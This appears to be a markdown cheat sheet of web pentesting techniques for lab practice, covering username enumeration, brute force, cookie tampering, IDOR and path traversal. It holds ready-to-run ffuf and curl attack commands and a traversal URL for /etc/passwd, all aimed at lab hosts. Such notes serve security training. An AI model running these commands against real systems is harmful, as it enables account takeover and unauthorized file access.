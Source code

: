 # Enumeration
## Authentication Bypass
| Type | Description | Example |
|-|-|-|
| Username Enumeration | Abuse user authentication by looking at server responses like "An account with this username already exists." | `ffuf -w wordlist.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.10.220/customers/signup -mr "username already exists"` |
| Brute force | Brute force search for the password from the enumerated user | `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.32.175/customers/login -fc 200` |
| Logic flaws | Abuse faulty code | Exact string matches for `admin` could be `adMIN`. `Password reset forms`, Abuse `Header files` & `requests`, `Off by one errors`, etc.
| Cookie Tampering | Examining and editing the cookies set by the web server during your online session | `curl -H "Cookie: logged_in=true; admin=true" http://10.10.232.83/cookie-test` |

## Exploit IDOR vulns
IDOR stands for Insecure Direct Object Reference and is a type of access control vulnerability.

***Where are they located?***
The vulnerable endpoint you're targeting may not always be something you see in the address bar. It could be content your browser loads in via an AJAX request or something that you find referenced in a JavaScript file.

Sometimes endpoints could have an unreferenced parameter that may have been of some use during development and got pushed to production. For example, you may notice a call to /user/details displaying your user information (authenticated through your session). But through an attack known as parameter mining, you discover a parameter called user_id that you can use to display other users' information, for example, /user/details?user_id=123.

| Type | Description | Example |
|-|-|-|
| Basic | Basic example | Change values in links like: `http://online-service.thm/profile?user_id=1305` |
| Encoded IDOR IDs | Web developers will often encode data into some type of ASCII string commonly using a-z, A-Z, 0-9 and = characters for padding | Base64: `{"id":30}` becomes `eyJpZCI6MzB9` |
| Hashed IDs | A bit more complicated to deal with than encoded ones, but they may follow a predictable pattern | md5: `123` becomes `202cb962ac59075b964b07152d234b70` |
| Unpredictable IDs | If the Id cannot be detected using the above methods, an excellent method of IDOR detection is to create two accounts and swap the Id numbers between them. | Swap `two` account IDs |

## Local File Inclusion (LCI)
| Type | Description | Example |
|-|-|-|
| Path traversal or dot-dot-slash attack | A web security vulnerability allows an attacker to read operating system resources, such as local files on the server running an application. The attacker exploits this vulnerability by manipulating and abusing the web application's URL to locate and access files or directories stored outside the application's root directory. | `http://webapp.thm/get.php?file=../../../../etc/passwd` |